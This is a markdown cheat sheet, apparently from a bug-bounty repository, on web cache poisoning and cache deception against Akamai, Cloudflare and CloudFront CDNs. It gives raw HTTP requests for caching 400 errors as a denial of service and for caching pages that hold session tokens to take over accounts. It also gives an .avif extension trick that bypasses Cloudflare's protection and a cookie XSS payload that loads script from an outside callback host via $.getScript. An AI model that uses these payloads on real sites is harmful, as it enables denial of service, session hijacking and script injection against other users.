 # Test Cache Poisoing

**Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.**

## Case 1:

If the applicatoin doen not have a login functionality, but using Akami CDN, You can test this method:

    - request:
    raw:  
         GET /xx/xxx/xxx/?param HTTP/1.1
         Host: hostname
         User-Agnet: xyz....
         Accept: text/html,applicaton/xhtml, applicatoin/xml.....
         Accept-Encoding: gzip, deflate
         Upgrade-Isecure-Requests: 1
         Te: trailers
         Connection: close

         - Check if the server is caching normal requests or not (You can tell this by the response header "Server-Timing: cnd-cache; desc=HIT")
         
     response:
         HTTP/2 200 OK
         ...
         Server-Timing: cnd-cahce; desc=HIT
         ...
        
         - Add an Illegal Request Header into the requst body.
         GET /xx/xx/xxx/param HTTP/2
         Host: hostname
         \:
         User-Agnet: xyz....
         Accept: ...
         ....
         
         - If the response was successfully cached, when you open the URL on any browser, you should get 400 Bad Request
         
         
## Case 2:
**If the Applicatoin does have a Login Functionality**
- Create an account
- Test Case1
- Check if any sensitve information is doclosed in any page (e.g: session Token)
- Send the request to Repeater
- Add a Cacheable Extention (.js, .css) at the end of the URL and see if it gives 200 OK Response
- Open the Modified URL using your authenticated Account:
- Open the Same URL using curl or Private Web Browser window.
```bash
curl "https://target.site/?param=1" --compressed | grep -i 'cookies'
```
- If the Token was successfully cached, you should see the Token in the response
### If the Application is using Cloudflare CND
**Illegal header won't work*, and most Cloudflare Cusotmer using Cache Deception Armor*
**_Youc can bypass this protection using .avif file extension while is really unknown extenstion file._**

### Cache Deception TO Account Takeover:
     All cookies (even HTTPonly ones) are being disclosed in https://target.com/app/account/1.js
     if an authenticated user visit this URL all their cookies will be stored in the cache
     An attacker can then extract the cookie and hijack their session.

### TIps & Trick
- In some Applicatoin, if you add a semicolon (;) before the extension it may give you a 200 OK response
  xxx/xxx/xxx/;.js 
  HTTP/2 200 OK
  
 
 ## Case 3: Cache Poisoning to DoS:
 **In Akamai CND, if we send a backslash \ as a header, the server will respond with ```400 Bad Request``` Response**
     request:
 
     raw: 
        GET /products/xxx/xxxx/xxx/?test HTTP/2
        Host: www.host.com
        \: 
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

   Response:
        
        HTTP/2 400 Bad Request
        Content-Type: text/html;charset=iso-8859-1
        Content-Length: 70
        Cache-Control: max-age=297
        Expires: Thu, 21 Jul 2022 16:17:54 GMT
        Date: Thu, 21 Jul 2022 16:12:57 GMT
        Server-Timing: cdn-cache; desc=HIT
        Server-Timing: edge; dur=32
        Server-Timing: origin; dur=147
        Strict-Transport-Security: max-age=86400
        Ak-Uuid: 0.bc85d817.1658419977.1592c61

**This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like**

_www.host.com/product/*_

_www.host.com/*_

etc... It become a very impactful bug:

## Case 4: Cache Poisoing to Stored XSS

***Try in cookies if cookies body reflecting in response body: Try Stored XSSS, BXSS**
 
**Try for Blind XSS on Cookie if target blocking try jquery payload ```$.getScript``` will help you.**
request:

        GET /xxxx/xx-xx.otf?triagethiss HTTP/2
        Host: www.host.com
        Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
        Accept-Language: en-xss,en;q=0.5
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Te: trailers

  response:
  
        <script>
        ...
        Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
        ....
        </script>

### Tips & Tricks:
**Test for XSS on any Request Heder, cookies, Custom Header, X-Forwarded-*  Header**

## Attacking AWS Cloudfront CDN
**If you see anywhere in response or xml Amazon error bucket stuff 404**
_Response:_
```
HTTP/2 200 Ok
Date: Thu, 01 Dec 2022 07:51:01 GMT
X-Cache: Hit from cloudfront
Via: 1.1 2dd59b0ea355cb92a87e9e385032622a.cloudfront.net (CloudFront)
X-Amz-Cf-Pop: JFK50-P8
X-Amz-Cf-Id: KQBmzmGEBmmIfprhoM0VXi7RjmiDnGkXkj-_-uJRAFKhCdNuNYVNBw==
Age: 1082260 https://link.medium.com/D65XUelUlwb
```
Try with header... 
  ```X-Amz-Server-Side-Encryption: Anything ```

```
GET /?test HTTP/2

Host: ██████

X-Amz-Server-Side-Encryption: AES256xss

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Upgrade-Insecure-Requests: 1

Te: trailers https://link.medium.com/D65XUelUlwb 
```
  
_Response should 400 code_
```
HTTP/2 400 Bad Request

Date: Thu, 01 Dec 2022 07:51:01 GMT

Content-Type: application/xml

Cache-Control: public,max-age=600

X-Ua-Compatible: IE=edge,chrome=1

X-Amz-Cf-Pop: JFK50-P8

X-Amz-Cf-Id: oEWROikzmcKM5bviUrsPwyFQTbRzS8S7l_-kzH2NSLbChDsc9_K3yA==

Age: 4 https://link.medium.com/D65XUelUlwb 
```
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

